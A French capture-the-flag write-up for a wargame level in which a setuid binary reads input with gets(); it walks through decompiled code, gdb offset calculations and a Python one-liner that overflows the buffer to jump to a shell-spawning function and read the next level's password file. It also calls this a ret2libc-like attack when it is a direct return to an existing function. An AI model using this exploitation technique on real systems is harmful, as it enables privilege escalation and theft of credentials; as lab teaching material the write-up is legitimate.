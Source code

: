 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2030(level1) gid=2030(level1) groups=2030(level1),100(users)
/home/user/level1
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Je tente d'exécuter le binaire `level1` :

```bash
$ ./level1
(waiting for input)
$ ./level1
hello world?
$
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=621e2f06-c90f-42e1-b556-a4a225fc4b1b) et en extrait une version probable du code :

```c
void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Le code présente une vulnérabilité : `gets()`. Cette fonction n'a pas de limite de byte lus, et va écrire dans un buffer de taille 64, je peux donc overflow.

Cela me permet d'exploiter une vulnérabilité similaire à celle connue sous le nom de `Ret2Libc` ([plus d'information ici](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)).

Cette vulnérabilité consiste à ré-écrire l'adresse sur laquelle la dernière instruction (`ret`) d'une fonction pointe (aussi appellé l'`EIP`).

En overflowant le buffer qui m'est donné ici, je peux donc écrire sur la stack et ré-écrire l'`EIP` pour le faire pointer sur autre chose, dans mon cas de figure, je vais faire pointer l'adresse de retour de `main()` vers `run()`.

Cela signifie que lorsque j'aurais envoyé mon "payload" a `gets()`, celui-ci, qui sera trop grand, va écrire sur la stack, et modifier l'exécution de `main()`, qui au lieu de return vers son caller (ce qui équivaut à un `exit` dans un cas classique), va return vers `run()`, et donc exécuter cette fonction.

Il me faut trouver deux informations afin d'exécuter cet exploit :

- La taille de la stack
- L'adresse de `run()` dans la mémoire

J'utilise `gdb` pour trouver la taille de la stack :

```h
$ gdb ./level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave <------------ break ici avant le clean de la stack
   0x08048496 <+22>:    ret
End of assembler dump.

(gdb) b *main+21
Breakpoint 1 at 0x8048495

(gdb) r
Starting program: /home/user/level1/level1
dab

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers
...
esp            0xbffff6c0       0xbffff6c0 <--- pointe vers le début de la stack
ebp            0xbffff718       0xbffff718 <--- pointe vers la fin de la stack
...
```

Le calcul suivant : `0xbffff718 - 0xbffff6c0 = 0x58 = 88` m'indique que la stack fait donc 88 bytes dans ce programme. Je dois cependant soustraire `0x10` à mon calcul pour l'overflow, car le buffer n'est pas déclaré au début de la stack comme le montre l'instruction suivante :

```h
   0x08048489 <+9>:     lea    0x10(%esp),%eax
```

Mais à `0x10` de la valeur `%esp`, soit un décalage de `0x10 = 16` bytes.
Je soustrais donc 16 bytes à 88 et trouve : `88 - 16 = 72` bytes afin de pointer sur `ebp`.

Il ne me reste qu'à ajouter 4 bytes supplémentaire à ce calcul pour atteindre l'adresse qui contient la valeur de retour de la fonction `main()`, qui sera enfin utilisé par :

```h
   0x08048496 <+22>:    ret
```

Je dois donc remplir le buffer de 76 bytes, puis, écrire l'adresse de `run()` que je trouve de cette façon :

```h
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run> 
```

Je peux donc maintenant construire mon "payload infecté" de cette manière :

```h
"\x90" * 76 + "\x08\x04\x84\x44"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^
buffer -> ebp    adresse de run()
```

Et l'utiliser sur le binaire `level1` tel quel :

```bash
$ (python -c 'print("\x90" * 76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
